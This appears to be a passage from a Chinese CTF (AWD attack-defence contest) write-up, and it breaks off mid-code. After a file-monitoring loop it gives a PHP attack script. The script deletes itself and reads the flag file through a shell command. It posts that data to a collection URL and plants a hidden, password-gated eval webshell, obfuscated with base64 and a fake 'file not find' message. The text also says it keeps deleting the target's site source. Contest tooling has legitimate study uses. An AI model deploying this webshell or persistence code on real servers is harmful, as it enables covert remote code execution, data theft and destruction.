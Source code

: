 ```
GetHash()
while True:
    print(time.ctime()+"   安全")
    FileMonitor()
    time.sleep(1)  # 监控间隔，按需修改
```

**AWD 线下赛攻击脚本：**

（1）内存马 & 自动获取刷新的 flag

该脚本功能：

1. 该脚本为内存脚本，访问一下就自删除，不留痕迹。

2. 自动读取 flag，并将 flag 提交到指定地址，会自动检测是否更新 flag，只有更新了 flag 才会提交，需要在脚本中修改 flag 物理路径。

3. 会生成不死马，不死马具有隐藏和欺骗功能。用蚁剑访问 http://xxx/.c403d59fea33113df44d465aeec336ab.php?key=ssr2021shuoshurenmd5，密码为 a。

木马原始代码如下（只要别人不知道 key，就没办法黑吃黑）：

```
<?php $key=$_GET["key"];
$keyhash=md5($key);
if($keyhash==="c403d59fea33113df44d465aeec336ab") {
    eval($_POST["a"]);
}
echo"file not find.";
?>
```

这个只作为备用连接，flag 正常自己提交过来的话就不用管。

4. 该脚本会不断删除目标的网站源码，别人扣分等于我们加分。

5. 脚本命名必须为 awd2021.php，若要修改的话需要同步修改下面代码中的文件名。

```
<?php
function send_post($url, $post_data) {
    $postdata = http_build_query($post_data);
    $options = array(
            'http' => array(
              'method' => 'POST',
              'header' => 'Content-type:application/x-www-form-urlencoded',
              'content' => $postdata,
              'timeout' => 15 * 60 
            )
          );
    $context = stream_context_create($options);
    $result = file_get_contents($url, false, $context);
    return $result;
}
$flag_tmp="flag{xxx}";
@unlink ("awd2021.php");
while (True) {
    $flag=system("cat flag.txt");
    $data=array(
          'flag' => $flag
        );
    if ($flag!=$flag_tmp) {
        send_post('http://127.0.0.1/getflag.php', $data);
    }
    $flag_tmp=$flag;
    $shell=base64_decode("PD9waHAgJGtleT0kX0dFVFsia2V5Il07CiRrZXloYXNoPW1kNSgka2V5KTsKaWYoJGtleWhhc2g9PT0iYzQwM2Q1OWZlYTMzMTEzZGY0NGQ0NjVhZWVjMzM2YWIiKSB7CglldmFsKCRfUE9TVFsiYSJdKTsKfQplY2hvImZpbGUgbm90IGZpbmQuIjsKPz4=");
    if (file_exists(".c403d59fea33113df44d465aeec336ab.php")==0) {
```
